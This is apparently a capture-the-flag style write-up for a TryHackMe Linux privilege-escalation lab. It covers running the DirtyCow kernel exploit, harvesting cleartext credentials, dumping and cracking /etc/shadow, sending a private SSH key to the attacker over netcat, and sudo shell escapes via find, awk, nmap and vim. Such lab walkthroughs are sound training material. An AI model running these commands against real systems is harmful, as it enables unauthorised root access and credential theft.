

# Linux PrivEsc Arena

**Room Link:** [https://tryhackme.com/room/linuxprivescarena](https://tryhackme.com/room/linuxprivescarena)


## Privilege Escalation - Kernel Exploits

In command prompt type:&#x20;

**Victim**

```
/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
```

From the output, notice that the OS is vulnerable to “dirtycow”.

<figure><figcaption></figcaption></figure>

### Exploitation

Linux VM

In command prompt type:&#x20;

**Victim**

```
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
```

In command prompt type:&#x20;

**Victim**

```
./c0w
```

Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.

In command prompt type:&#x20;

**Victim**

```
passwd
```

In command prompt type:&#x20;

**Victim**

```
id
```

<figure><figcaption></figcaption></figure>

From here, either copy /tmp/passwd back to /usr/bin/passwd or reset your machine to undo changes made to the passwd binary

**Victim**

```
ls -lah /usr/bin/passwd 
rm -f /usr/bin/passwd   
cp /tmp/bak /usr/bin/passwd 
ls -lah /usr/bin/passwd 
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation - Stored Passwords (Config Files)

From the output, make note of the value of the “auth-user-pass” directive.&#x20;

**Victim**

```
cat /home/user/myvpn.ovpn
```

<figure><figcaption></figcaption></figure>

From the output, make note of the clear-text credentials.&#x20;

**Victim**

```
cat /etc/openvpn/auth.txt 
```

<figure><figcaption></figcaption></figure>

From the output, make note of the clear-text credentials.

**Victim**

```
cat /home/user/.irssi/config | grep -i passw 
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation - Stored Passwords (History)

**Victim**

```
cat ~/.bash_history | grep -i passw 
```

From the output, make note of the clear-text credentials.

<figure><figcaption></figcaption></figure>

## Privilege Escalation - Weak File Permissions

**Victim**

```
cat /etc/passwd
```

Save the output to a file on your attacker machine

<figure><figcaption></figcaption></figure>

**Victim**

```
cat /etc/shadow
```

Save the output to a file on your attacker machine

<figure><figcaption></figcaption></figure>

**Kali**

```
unshadow passwd shadow > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation - SSH Keys

Found nothing for this box

**Victim**

```
find / -name authorized_keys 2> /dev/null
```

**Victim**

```
find / -name id_rsa 2> /dev/null
cat /backups/supersecretkeys/id_rsa
```

<figure><figcaption></figcaption></figure>


#### Netcat

**Kali(receiving)**

```
nc -l -p 1234 > id_rsa
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < id_rsa
```

**Kali**

```
chmod 400 id_rsa
ssh -i id_rsa root@$VICTIM
```

## Privilege Escalation - Sudo (Shell Escaping)


**Victim**

```
 sudo -l
```

<figure><figcaption></figcaption></figure>


**Victim**

```
sudo find /bin -name nano -exec /bin/sh \;
```

<figure><figcaption></figcaption></figure>

**Victim**

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

<figure><figcaption></figcaption></figure>

**Victim**

```
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```

<figure><figcaption></figcaption></figure>

**Victim**

```
sudo vim -c '!sh'
```

<figure><figcaption></figcaption></figure>


